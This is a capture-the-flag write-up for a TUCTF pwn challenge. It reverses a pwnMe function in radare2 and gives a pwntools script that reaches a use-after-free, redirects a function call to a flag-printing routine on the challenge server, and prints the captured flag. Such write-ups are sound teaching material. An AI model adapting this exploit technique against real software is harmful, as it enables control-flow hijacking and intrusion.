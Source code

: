 ### Solved by superkojiman

To be honest, this involved a bit of guesswork and reversing. I'll start with the reversing. 

If we set our choice to 0x1337 (4919), it goes into a special function called pwnme(). Here's what it looks like:

```
[0x00400820]> pdf@sym.pwnMe
/ (fcn) sym.pwnMe 67
|           ; var int local_8h     @ rbp-0x8
|           ; var int local_10h    @ rbp-0x10
|           ; CALL XREF from 0x00400e37 (sym.pwnMe)
|           0x00400ce1      55             push rbp
|           0x00400ce2      4889e5         mov rbp, rsp
|           0x00400ce5      4883ec10       sub rsp, 0x10
|           0x00400ce9      8b05d1132000   mov eax, dword [rip + 0x2013d1] ; [0x6020c0:4]=0x4700352e  LEA obj.bearOffset ; ".5" @ 0x6020c0
|           0x00400cef      4898           cdqe
|           0x00400cf1      488b04c5e020.  mov rax, qword [rax*8 + obj.pointers] ; [0x6020e0:8]=0x322e382e3420  LEA obj.pointers ; " 4.8.2" @ 0x6020e0
|           0x00400cf9      488945f0       mov qword [rbp - local_10h], rax
|           0x00400cfd      488b45f0       mov rax, qword [rbp - local_10h]
|           0x00400d01      8b4014         mov eax, dword [rax + 0x14] ; [0x14:4]=1
|           0x00400d04      83f803         cmp eax, 3
|       ,=< 0x00400d07      7511           jne 0x400d1a
|       |   0x00400d09      488b45f0       mov rax, qword [rbp - local_10h]
|       |   0x00400d0d      488b00         mov rax, qword [rax]
|       |   0x00400d10      488945f8       mov qword [rbp - local_8h], rax
|       |   0x00400d14      488b45f8       mov rax, qword [rbp - local_8h]
|       |   0x00400d18      ffd0           call rax
|       |   ; JMP XREF from 0x00400d07 (sym.pwnMe)
|       `-> 0x00400d1a      bf00000000     mov edi, 0
\           0x00400d1f      e8ecfaffff     call sym.imp.exit
```

At 0x00400d04, it checks if the value in eax is 3. I'm not sure what this value is, but after some trial and error, I found  that I could set it to 3 when I created two tigers of type 3 and 4.

At 0x00400d18, it calls rax. The value in rax is the name of the first tiger. So all I had to here was name the first tiger an address I wanted to set EIP to. In this case, that value is the address of the function 1337Hax0r(). This function returns the flag. 

And so here's the exploit:

```
#!/usr/bin/env python
from pwn import *

get_flag = p64(0x40090D)

r = remote("104.155.227.252", 25050)

r.recvuntil("choice:")
r.sendline("2")
r.recvuntil("Caspian Tiger")
r.sendline("3")
r.recvuntil(":")
r.sendline(get_flag)

r.recvuntil("choice:")
r.sendline("2")
r.recvuntil("Caspian Tiger")
r.sendline("4")
r.recvuntil(":")
r.sendline("bbbbbb")


r.recvuntil("choice:")
r.sendline("4919")

print r.recvall()
```

Scoring the flag:

```
# ./sploit.py
[+] Opening connection to 104.155.227.252 on port 25050: Done
[+] Recieving all data: Done (50B)
[*] Closed connection to 104.155.227.252 port 25050

TUCTF{free_as_in_freedom_I_mean_Use_after_free}
```
